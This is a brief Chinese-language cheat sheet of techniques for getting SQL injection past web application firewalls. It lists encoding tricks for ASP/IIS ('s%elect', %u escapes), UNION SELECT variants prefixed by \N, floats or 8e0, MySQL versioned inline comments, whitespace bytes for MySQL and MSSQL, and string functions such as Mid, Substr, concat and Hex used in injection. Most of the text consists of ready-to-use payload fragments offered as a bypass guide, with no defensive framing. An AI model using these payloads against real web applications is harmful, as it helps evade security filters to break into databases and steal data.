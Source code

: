 `WAF类型`

`根据WEB应用程序特性进行Waf绕过`
    
Web应用层
    
    `web容器层`
    % 绕过   asp+iis   即s%elect
    
    %u 特性  asp（x）+ iis   select=s%u006c%u0006ect
    
    apache
    
数据库交互层
        
        \Nunion的形式 userid=\Nunion select 
        
        浮点数的形式如1.1,8.0  userid=1.1union select
        
        8e0的形式 userid=8e0union select
        
        利用/*!50000*/的形式 userid=1 un/*!*/ion /*!50000select*/
        
        Mysql中可以利用的空白字符有:%09,%0a,%0b,%0c,%0d,%a0；
        Mssql中可以利用的空白字符有:01,02,03,04,05,06,07,08,09,0A,0B,0C,0D,0E,0F,10,11,12,13,14,15,16,17,18,19,1A,1B,1C,1D,1E,1F,20 
        字符串截取函数 
        Mid(version(),1,1)
        Substr(version(),1,1)
        Substring(version(),1,1)
        Lpad(version(),1,1)
        Rpad(version(),1,1)
        Left(version(),1)
        reverse(right(reverse(version()),1)
        字符串连接函数
        concat(version(),'|',user());
        concat_ws('|',1,2,3)
        字符串转换
        Char(49)
        Hex(‘a’)
        Unhex(61)
        MSSQL
        可以使用内联注释/**/    
